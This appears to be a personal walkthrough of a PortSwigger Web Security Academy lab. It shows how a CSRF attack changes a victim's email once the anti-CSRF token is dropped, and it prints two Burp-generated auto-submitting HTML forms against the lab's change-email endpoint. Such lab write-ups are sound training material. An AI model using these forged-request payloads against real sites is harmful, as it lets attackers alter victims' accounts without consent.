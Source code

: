 ![[Pasted image 20241230204303.png]]
main blog page
![[Pasted image 20241230204343.png]]
navigate to `My account` and login as `wiener`, once logged in use `update email` with `test@local.com` to get a post request
![[Pasted image 20241230204432.png]]
send to repeater
![[Pasted image 20241230204632.png]]
generate a `CSRF` payload
![[Pasted image 20241230204721.png]]
original
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9f00d203498f86863b0cff00520041.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;local&#46;com" />
      <input type="hidden" name="csrf" value="VC3n0FnLzy8kDqWgclJ5i8TR0DIw0cg3" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
and delete the `CSRF` field
```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9f00d203498f86863b0cff00520041.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;local&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
copy and paste the `deleted CSRF` field payload into the test section, we see that the email did get changed so we know it worked
![[Pasted image 20241230204844.png]]
change the payload to `test2@local.com` and deliver to victim
![[Pasted image 20241230204925.png]]
profit
![[Pasted image 20241230204940.png]]

![[Pasted image 20241230205004.png]]